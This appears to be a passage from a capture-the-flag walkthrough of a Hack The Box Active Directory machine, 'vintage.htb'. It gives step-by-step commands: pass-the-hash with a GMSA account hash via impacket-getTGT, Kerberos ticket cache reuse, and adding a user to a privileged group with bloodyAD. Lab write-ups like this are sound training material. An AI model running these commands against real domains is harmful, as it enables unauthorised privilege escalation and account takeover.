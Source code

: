 **U4.**

INFO: Attempt to obtain a Kerberos ticket from the Active Directory
domain controller using the known GMSA account hash from STEP U3

**RUN: impacket-getTGT vintage.htb/GMSA01\$ -hashes
aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178**

![](images/media/image15.png){width="5.036457786526684in"
height="0.5503412073490813in"}

**RUN: export KRB5CCNAME=GMSA01\\\$.ccache**

![](images/media/image16.png){width="2.192707786526684in"
height="0.2672703412073491in"}

**U5.**

INFO: Then add P.Rosa to SERVICEMANAGERS, use GMSA\'s credentials, and
then generate your own credentials

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add groupMember \"SERVICEMANAGERS\" \"P.Rosa\"**

![](images/media/image17.png){width="4.885416666666667in"
height="0.3235378390201225in"}

**U5.1.**

INFO: Sets a new PASSWORD. Command creates P.Rosa.ccache file.

**RUN: impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip
dc01.vintage.htb**

![](images/media/image18.png){width="6.302083333333333in"
height="0.4847222222222222in"}

**U5.2.**

**INFO:**

**RUN: export KRB5CCNAME=P.Rosa.ccache**
